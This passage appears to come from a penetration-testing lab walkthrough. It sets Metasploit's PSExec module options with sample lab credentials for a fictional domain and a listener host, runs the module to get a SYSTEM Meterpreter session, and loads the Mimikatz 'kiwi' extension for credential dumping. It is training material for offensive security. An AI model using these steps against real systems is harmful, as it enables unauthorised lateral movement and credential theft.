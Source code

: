 	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](Images/psexecoptions.PNG)
	
3. Run the module with `run`.

	 ![A screenshot depicts the results of the command.](Images/runpsexec.PNG)
	
Even though we set the credentials to `tstark`, the PSExec module in Metasploit will always open a session as SYSTEM due to how it executes the payload via service creation.

4. In your Meterpreter session, enable the Mimikatz modules by typing `load kiwi`, as the following image shows:

	 - ![A screenshot depicts the results of the command.](Images/loadkiwi.PNG)
